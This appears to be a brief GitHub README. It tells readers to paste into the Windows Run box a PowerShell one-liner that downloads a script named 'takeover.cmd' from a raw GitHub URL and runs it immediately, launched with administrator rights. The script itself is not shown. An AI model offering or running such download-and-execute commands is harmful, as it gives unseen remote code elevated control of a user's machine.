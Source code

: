 **How to run:**
- Win+R
- Paste:
```
cmd /k powershell  -command "Invoke-WebRequest -Uri https://raw.githubusercontent.com/Fidasek009/1337/main/takeover.cmd -OutFile .\takeover.cmd; .\takeover.cmd"
```
- Ctrl+Shift+Enter
